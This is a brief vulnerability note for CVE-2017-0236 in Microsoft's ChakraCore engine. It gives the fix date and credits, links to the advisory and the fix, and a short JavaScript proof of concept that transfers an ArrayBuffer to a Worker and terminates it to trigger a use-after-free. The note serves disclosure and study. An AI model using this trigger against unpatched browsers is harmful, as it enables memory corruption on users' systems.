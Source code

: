 # CVE-2017-0236

- Fix: May 2017
- Credit: Tencent Security Lance Team, Yuki Chen of Qihoo 360 Vulcan Team

## PoC

```javascript
var buffer = new ArrayBuffer(0x10000);
var view = new Uint32Array(buffer);
var worker = new Worker('uaf1.js');
worker.postMessage(buffer,[buffer]);
worker.terminate();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-0236)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/1ae7e3ce95515758b4cd7215cb4e48539a0f4031)